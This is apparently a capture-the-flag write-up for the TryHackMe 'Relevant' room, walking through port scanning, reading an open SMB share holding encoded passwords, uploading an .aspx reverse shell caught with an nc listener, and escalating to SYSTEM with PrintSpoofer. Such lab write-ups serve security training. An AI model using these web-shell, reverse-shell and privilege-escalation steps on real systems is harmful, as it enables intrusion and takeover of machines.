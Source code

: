 ```yaml
---
published: true
title: Relevant - TryHackMe Walkthrough
author: F3dai
category: Writeup
image: 'https://imgur.com/EbY8m0j.png'
---
```

Relevant - "Penetration Testing Challenge. You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days.  "

**URL:** [Relevant](https://tryhackme.com/room/relevant)

**Difficulty:** Medium

**Author:** TheMayor

## Enumeration

We are given the IP 10.10.54.82. Add this to the /etc/hosts file. Let's scan the open ports with the following command:

<pre>sudo nmap -v -sV -sS -p- -T4 -sC -oN portscan relevant.thm</pre>

<pre>PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Windows Server 2016 Standard Evaluation 14393 netbios-ssn
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2020-08-22T17:23:55+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2020-07-24T23:16:08
|_Not valid after:  2021-01-23T23:16:08
|_ssl-date: 2020-08-22T17:24:34+00:00; +1s from scanner time.
49663/tcp open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC

Host script results:
|_clock-skew: mean: 1h24m02s, deviation: 3h07m52s, median: 1s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-08-22T10:23:58-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-22T17:23:56
|_  start_date: 2020-08-22T17:19:13</pre>

This is clearly a Windows box. Let's check out the webserver on port 49663:

![port 49663](https://imgur.com/i6p1QnT.png)

This is the default IIS page so let's move on.

Some of the nmap scripts revealed that smb was running on this machine, let's try and list any shares:

<pre>┌─[user@parrot]─[~/tryhackme/Relevant]
└──╼ $smbclient -L relevant.thm
Enter WORKGROUP\user's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv        Disk      
SMB1 disabled -- no workgroup available</pre>

I managed to access the share "nt4srksv":

<pre>┌─[✗]─[user@parrot]─[~/tryhackme/Relevant]
└──╼ $smbclient  \\\\relevant.thm\\nt4wrksv
Enter WORKGROUP\user's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 25 22:46:04 2020
  ..                                  D        0  Sat Jul 25 22:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 16:15:33 2020</pre>

Transfer this file over to your local machine:

<pre>get passwords.txt</pre>

Take a look at the file:

**passwords.txt:**

<pre>[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk</pre>

Looks like it's base64 encoded. Let's decode this. I used CyberChef:

[CyberChef - gchq.github.io](https://gchq.github.io/CyberChef)

I got the following result:

<pre>Bob - !P*********23
Bill - Juw***************$$$</pre>

I tried these credentials for some of the services running but I got nothing. After some time, I re-scanned both web servers again with a larger wordlist:

<pre>gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://relevant.thm:49663</pre>

I got a hit on the following directory:

<pre>/nt4wrksv</pre>

This is the same directory that we saw on the share from earlier. Let's confirm by visiting passwords.txt:

<pre>┌─[user@parrot]─[~/tryhackme]
└──╼ $curl relevant.thm:49663/nt4wrksv/passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
</pre>

This means we can upload our own files to the server. However, php is disabled. Another webshell we can upload is .aspx and .asp.

I used this reverse shell:

![.aspx Reverse Shell - Github](https://github.com/borjmz/aspx-reverse-shell)

Add your IP and a port number to the file and upload it to the webserver via smbclient:

<pre>┌─[user@parrot]─[~/tryhackme/Relevant/webshells]
└──╼ $smbclient \\\\relevant.thm\\nt4wrksv
Enter WORKGROUP\user's password: 
Try "help" to get a list of possible commands.
smb: \> put shell.aspx
putting file shell.aspx as \shell.aspx (61.6 kb/s) (average 61.6 kb/s)
</pre>

Let's listen on port 4444:

<pre>nc -nvlp 4444</pre>

Visit the file path on the webserver:

<pre>relevant.thm:49663/nt4wrksv/shell.aspx</pre>

![reverse shell](https://imgur.com/CV8Ha6K.png)

The user flag can be found in Bob's home directory, without even being logged in as him.

I proceeded with some Windows enumeration - understanding groups and user permissions and I came across this:

<pre>c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
</pre>

The **SeImpersonatePrivilege** caught my eye.

Some research shows that this is exploitable for privilege escalation. 

The exploit must be for Windows 10 and more, we can identify more information about our system:

<pre>systeminfo</pre>

I found this article:

[PrintSpoofer - Github Pages](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

*if you have SeAssignPrimaryToken or SeImpersonate privilege, you are SYSTEM*

*They allow you to run code or even create a new process in the context of another user*

Take a look at this GitHub repo:

[PrintSpoofer - Github](https://github.com/dievus/printspoofer)

Let's transfer this executable to our target with smbclient. Once it is there, locate the .exe in one of the web directories and execute it. 

<pre>cd C:\inetpub\wwwroot\nt4wrksv
PrintSpoofer.exe -i -c cmd</pre>

And we have elevated our privileges:

<pre>C:\Windows\system32>whoami
whoami
nt authority\system</pre>

![root](https://imgur.com/Me9RYdG.png)



